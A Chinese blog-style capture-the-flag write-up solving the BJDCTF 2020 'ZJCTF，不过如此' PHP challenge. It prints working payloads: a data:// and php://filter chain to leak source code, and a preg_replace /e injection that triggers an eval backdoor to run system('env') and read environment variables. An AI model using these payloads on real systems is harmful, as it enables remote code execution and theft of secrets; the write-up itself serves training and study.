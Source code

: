 ```yaml
---
date: 2024-05-26
categories: 
    - BJDCTF
tags:
    - CTF
    - RCE
    - PHP
    - php伪协议 
    - 正则
---
```


# 每日一题 —— [BJDCTF 2020]ZJCTF，不过如此

> 题目地址： <https://www.nssctf.cn/problem/717>   

<!-- more -->

## index.php

第一步是白盒，观察代码，发现我们要传入两个参数，一个是 `text`，一个是 `file`。为了让我们能够成功包含 `next.php`， 我们需要满足函数 `file_get_contents` 可以从 `text` 参数中作为文件读取数据。我们使用 `data` 伪协议传入数据：


```
?text=data://text/plain,I%20have%20a%20dream
```

然后，我们通过同样的方法将 `next.php` 给包含进来。为了防止该 php 文件被解析，我们使用同样的方法包含这个文件，那么在该 `index.php` 文件下，最终 payload 为：

```
?text=data://text/plain,I%20have%20a%20dream&file=php://filter/convert.base64-encode/resource=next.php
```

将得到的 base64 数据丢进 CyberChef 中得到 `next.php` 的源代码：

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```

## next.php

现在转到 `next.php` 文件，一片空白需要我们传参。注意到有一个 `getFlag()` 方法调用了一句话木马，但是主程序并没有入口调用它。观察到主程序调用了 `complex` 函数，而 `complex` 函数调用了 `preg_replace` 函数。注意到其中的正则表达式中有一个 `e` 修饰符，经过搜索，发现它是 php 已废弃的修饰符，会调用 `eval` 方法并执行第二个参数 —— `replacement` 的内容。因此从此入手。

解析 `preg_replace` 函数，发现它扫描每一个 GET 的键值对，将 key 作为扫描的字符串，包裹上小括号并传递给第二个参数。此步骤是正则表达式的反向引用。而 `\\1` 就代表读取此前扫描字符串中第一个小括号包裹的内容。总结就是：对于传入的每一个键值对，此函数会操作该 `value` ，将 `key` 作为扫描字符串并替换为 `strtolower(key)` 。此函数会执行 `key` 参数，并认为 `key` 为一个普通的字符串。

观察到 `\\1` 周围包裹的为双引号，此引号内会解析变量，并且变量内部可以执行一个函数命令。那么构造该键值对： `\S*=${getFlag()}` 其中，`\S*` 代表所有字符组成的字符串，可以包括 `value` 中的所有信息。而 `${getFlag()}` 则会在解析变量的时候运行危险后门函数。因此同时我们就可以通过 `cmd` 参数实现 RCE。

最终 payload：

```
next.php?\S*=${getFlag()}&cmd=system('env');
```

在输出中发现环境变量有 `FLAG` 变量。

---
ps: 不知道为什么，无论是 `\S*` 参数还是 `cmd` 参数，都无法直接运行 `phpinfo()` 函数，只要运行就会爆“连接已重置”的问题。不知道这个是服务器问题还是我的问题，毕竟别的函数都是可以使用的。